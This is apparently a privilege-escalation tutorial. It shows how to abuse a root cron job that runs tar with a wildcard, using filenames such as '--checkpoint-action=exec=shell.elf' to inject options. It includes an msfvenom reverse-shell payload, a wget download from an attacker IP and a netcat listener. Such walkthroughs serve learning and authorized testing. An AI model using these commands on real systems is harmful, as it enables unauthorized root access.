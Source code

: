 ```yaml
---
legal-banner: true
---
```


### **Introduction**

When you use a wildcard character (\*) in a command argument, the shell performs a process called filename expansion or globbing. This replaces the wildcard with a space-separated list of all file and directory names in the current directory. You can observe this behavior by executing the command echo \* from your home directory.

### **Wildcards & Filenames**

Linux filesystems allow a wide range of characters in filenames. Because filename expansion occurs before command execution, you can inadvertently pass command-line options (like -h or --help) by creating files with these names. Here’s an example to illustrate this:

```bash
$ ls *
$ touch ./-l
$ ls *
```

Filenames aren't limited to simple options like -h or --help. You can also create filenames that correspond to more complex options, such as --option=key=value. Tools like GTFOBins can help you find commands with useful command-line options for such purposes.

### **Steps to Identify and Exploit Wildcard Vulnerabilities**

1.  By Running LinPEAS reveals a cron job running every minute as root, executing a script in /usr/local/bin using the absolute path.  
    
    ![](../../../../img/Linux-Environment/77.png)

    **NOTE:** Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions on the /usr/local/bin/ directory to determine if we can write to it:  
    `ls -l /usr/local | grep "bin"` 

    ![](../../../../img/Linux-Environment/78.png)

    **NOTE:** The bin directory is owned by root and the staff group. Our user has only read and execute permissions.
    
3.  However, Despite not having write permissions, we can still exploit this cron job by examining the script:  
    `ls -la /usr/local/bin/compress.sh`

    ![](../../../../img/Linux-Environment/79.png)

    **NOTE:** I guess that means we won’t be able to exploit this cron job since we don't write have permissions to compress.sh script
    
4.  Actually – not true at all! We definitely still can exploit this cron job!  
    `cat /usr/local/bin/compress.sh`  
    
    ![](../../../../img/Linux-Environment/80.png)

    **NOTE:** When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
    
5.  The tar command is run with a wildcard in the /home/user directory.  
    `ls -l /home | grep "user"`  

    ![](../../../../img/Linux-Environment/81.png)

    **NOTE:** This confirms that our current user does have write permissions in the /home/user directory!
    
6.  GTFOBins shows that tar has command line options which can be used to run other commands as part of a checkpoint feature.  
    
    ![](../../../../img/Linux-Environment/82.png)
    
7.  we can use msfvenom to craft a reverse shell ELF payload  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f elf -o shell.elf`  
    
    ![](../../../../img/Linux-Environment/83.png)

    **NOTE:** we can create files that are named different switches, and tar will execute them when it compresses everything in the directory.
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/shell.elf -O /home/user/shell.elf`  
    
    ![](../../../../img/Linux-Environment/84.png)
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod +x /home/user/shell.elf`
    
10. Lets Create two files in the /home/user directory:  
    `touch /home/user/--checkpoint=1 && touch /home/user/--checkpoint-action=exec=shell.elf`  
    
    ![](../../../../img/Linux-Environment/85.png)
    
11. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    ![](../../../../img/Linux-Environment/86.png)
